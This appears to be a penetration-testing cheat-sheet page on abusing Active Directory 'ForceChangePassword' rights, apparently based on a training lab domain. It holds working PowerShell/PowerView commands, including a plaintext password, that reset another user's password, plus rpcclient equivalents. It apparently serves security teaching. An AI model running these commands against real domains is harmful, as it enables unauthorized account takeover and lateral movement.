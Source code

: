 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# ForceChangePassword

## Exploitation

<figure><img src="../../../../.gitbook/assets/forcechangepassword_bh.png" alt=""><figcaption><p>Figure 1: User wley has ForceChangePassword rights over user damundsen.</p></figcaption></figure>

{% code overflow="wrap" %}
```powershell
# creating a PSCredential Object for the currently owned user
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
 
# set the password we want for the target user by creating a SecureString Object
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
 
# change the user's password
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
{% endcode %}

This can also be done using RPC:

```bash
rpcclient -U <USER> <IP>
> setuserinfo2 <USER> 23 'ComplexP4ssw0rd!'
# OR
> chgpasswd3 <USER> <OLDPASS> <NEWPASS>
```

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#forcechangepassword" %}
{% endtab %}
{% endtabs %}
